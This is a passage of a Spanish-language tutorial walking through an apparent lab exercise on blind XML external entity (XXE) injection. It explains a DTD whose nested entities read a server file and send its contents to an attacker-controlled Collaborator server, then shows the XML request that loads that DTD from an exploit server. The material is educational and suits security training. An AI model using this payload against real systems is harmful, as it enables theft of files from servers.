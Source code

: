 En la segunda línea estamos declarando la entidad llamada **eval**, la cual está declarando otra entidad dentro de ella, recordemos que el valor **&#x25;** es el símbolo de porcentaje, pero en hexadecimal para que no se confunda la sintaxis.

Después en esa sub entidad que declaramos llamada **exfil**, contendrá el contenido el cual conecta con nuestro servidor tercero, y enviamos la petición a nuestro servidor tercero, ya que ahí podremos ver la respuesta que llegan en el registro de burpcollaborator en este caso, y como en la primera entidad llamada **file** ya tomamos lo que nos interesa, simplemente lo mostraremos a través de un parámetro llamado **content**, el cual llamará a la entidad **file**.

Esto último del parámetro, lo que hace es llamar a la entidad **file** la cual contiene el valor del archivo que nos interesa, y se hace de esta manera para que en los registros de nuestro servidor tercero podamos apreciar el contenido de ese archivo.

Por último se debe llamar a eval y después a exfil, ya que si llamamos primero a exfil no puede llamarse, ya que depende de eval para existir, por lo que primero va eval.

<br>

Una vez creado nuestro exploit, lo que haremos será tomar la URL que nos deja arriba:

![url](/assets/images/LabsXXE/lab5/url.png)

Y ahora desde la petición que teníamos interceptada, pondremos esta URL que apunta a nuestro exploit:

![exploit](/assets/images/LabsXXE/lab5/exploit.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a92004104741dc7c3ae00b101b80069.exploit-server.net/exploit"> %xxe;]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```
